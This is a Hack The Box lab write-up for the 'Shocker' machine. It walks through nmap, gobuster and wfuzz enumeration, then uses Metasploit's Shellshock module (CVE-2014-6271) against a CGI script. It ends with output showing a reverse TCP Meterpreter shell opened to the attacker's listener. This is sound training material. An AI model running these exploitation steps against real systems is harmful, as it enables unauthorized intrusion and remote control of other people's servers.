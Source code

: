 # htb-shocker
This is my [Hack the box](https://www.hackthebox.eu/)'s Shoker machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.56

Difficulty: Easy

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.56`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/shoker# nmap -sV -sC -oN shocker.nmap 10.10.10.56
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 14:54 EDT
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```
The page itself just has a picture that doesn't really say much. Inspecting the page using dev tools doesn't give any extra information either.

Enumerate directories of the webpage using [gobuster](https://github.com/OJ/gobuster):
```
root@kali:/usr/share/wordlists# gobuster dir --url 10.10.10.56 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --timeout 20s
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        20s
===============================================================
2020/05/23 15:18:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/23 15:19:39 Finished
===============================================================
```

Duckduckdicking a bit noticed that the machine's name refers to the Shell Shock vulnerability (CVE-2014-6271), which is related to the `/cgi-bin` directory.

Search on Metasploit:
```
msf > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Description
   ----                                               ---------------  ----       -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
   exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

`multi/http/apache_mod_cgi_bash_env_exec` is the one we were looking for. But this one needs the URI of some script that may be under `/cgi-bin`. 



After several attempts with [wfuzz](https://github.com/xmendez/wfuzz), this one is good for finding `user.sh` was there:

```
root@kali:~# wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  http://10.10.10.56/cgi-bin/FUZZ.sh
```

Now we got the script it's possible to exploit the vulnerability. These are the final options set:
```
   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CMD_MAX_LENGTH  2048                                yes       CMD max line length
   CVE             CVE-2014-6271                       yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent                          yes       HTTP header to use
   METHOD          GET                                 yes       HTTP method to use
   Proxies                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST           10.10.10.56                         yes       The target address
   RPATH           /bin                                yes       Target PATH for binaries used by the CmdStager
   RPORT           80                                  yes       The target port (TCP)
   SRVHOST         0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080                                yes       The local port to listen on.
   SSL             false                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       http://10.10.10.56/cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                                   yes       HTTP read response timeout (seconds)
   URIPATH                                             no        The URI to use for this exploit (default is random)
   VHOST                                               no        HTTP server virtual host
```

And it's possible to get a shell by exploiting it:
```bash
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.56:57908) at 2020-05-24 07:35:52 -0400
```
